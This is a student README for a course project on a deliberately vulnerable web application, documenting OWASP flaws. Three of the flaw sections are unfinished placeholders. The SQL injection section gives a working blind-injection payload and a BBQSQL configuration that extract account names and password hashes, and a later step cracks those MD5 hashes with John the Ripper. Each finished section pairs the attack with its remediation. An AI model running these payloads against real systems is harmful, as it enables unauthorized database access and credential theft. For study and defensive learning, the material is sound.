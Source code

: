 # Cyber Security Base  - Project I

This is my solution for the first project of the [Cyber Security Base course](https://cybersecuritybase.github.io/). In this project our task is to create a web application that has at least five different flaws from the OWASP top ten list.

## Setup info
TODO

## Flaw 1 - Broken Authentication and Session Management
**OWASP description**: [A1-Injection](https://www.owasp.org/index.php/Top_10_2013-A2-Broken_Authentication_and_Session_Management)

**Issue**: [Session fixation](https://www.owasp.org/index.php/Session_fixation)

**Steps to reproduce**:

1. s1
2. s2
3. s3

**Remediation**:


## Flaw 2 - Cross-Site Scripting
**OWASP description**: [A3-Cross-Site Scripting](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS))

**Issue**: [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

**Steps to reproduce**:

1. s1
2. s2
3. s3

**Remediation**:


## Flaw 3 - Cross-Site Request Forgery
**OWASP description**: [A8-Cross-Site Request Forgery](https://www.owasp.org/index.php/Top_10_2013-A8-Cross-Site_Request_Forgery_(CSRF))

**Issue**: [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery)

**Steps to reproduce**:

1. s1
2. s2
3. s3

**Remediation**:


## Flaw 4 - Injection
**OWASP description**: [A1-Injection](https://www.owasp.org/index.php/Top_10_2013-A1-Injection)

**Issue**: [Blind SQL injection](https://www.owasp.org/index.php/Blind_SQL_Injection)

**Steps to reproduce**:

1. Login to the web application.
2. Go to the attendees page.
3. Insert `nothing' OR '1'='1` in the search field. After applying this filter, all items are still shown. This indicates that we can exploit this using SQL injection. We will have to use a blind SQL injection as the result of the query is not printed. I chose for a content-based blind SQL injection, but a time-based injection should also work.
4. We can read the data from the database by doing a binary search on the ASCII value of each character in the database and iterating over all the characters. The base query for this method is:
    ```
    1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET 1, 1, 1)) > 63) --
    ```
    If the list of attendees is shown, the query evaluated to true and the ASCII value first character in the Name column for the first row in the Account table is larger than 63. If no attendees are shown, then the query evaluated to false.
5. We can now execute this base query using the tool [BBQSQL](https://github.com/Neohapsis/bbqsql) using the following configuration file:
    ```
    [Request Config]
    url = http://192.168.0.185:8080/attendees
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    cookies = {'JSESSIONID': '19EE58D182C7FE01DC0312AD14172858'}
    data = searchString=${query}
    method = post

    [HTTP Config]
    query = 1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET ${row_index:1}, ${char_index:1}, 1)) ${comparator:>} ${char_val:0}) --
    csv_output_file = bbqsql_output.csv
    technique = binary_search
    comparison_attr = size
    concurrency = 30
    ```
6. This tool gives the following output:
    ![Result of BBQSQL](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/SQLI_result.png)

**Remediation**:
[Parameterized queries](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet#Defense_Option_1:_Prepared_Statements_.28with_Parameterized_Queries.29) can be used as a remediation for this SQL injection.


## Flaw 5 - Sensitive Data Exposure
**OWASP description**: [A6-Sensitive Data Exposure](https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure)

**Issue**: Weak cryptographic algorithm and unsalted hashes used

**Steps to reproduce**:

1. In the previous flaw, we found the user names and hashes of the passwords. Using an [online tool](https://www.onlinehashcrack.com/hash-identification.php) to identify the hash type, we can see that these hashes are probably MD5 hashes.
2. We can try to crack the hashes using the tool 'john the ripper' with the command `john -format=raw-MD5 bbqsql_output.csv`:
    ![Result of john](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/SQLI_result.png)
    We could also check an [online reverse lookup](http://md5.gromweb.com/) for the MD5 hashes:
    ![Result of reverse lookup](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/MD5_reverse_lookup.png)

**Remediation**:
Select a hashing algorithm that has no known vulnerabilities. For example the standard BCrypt algorithm in the Spring framework. The implementation in Spring also uses a random salt per user.
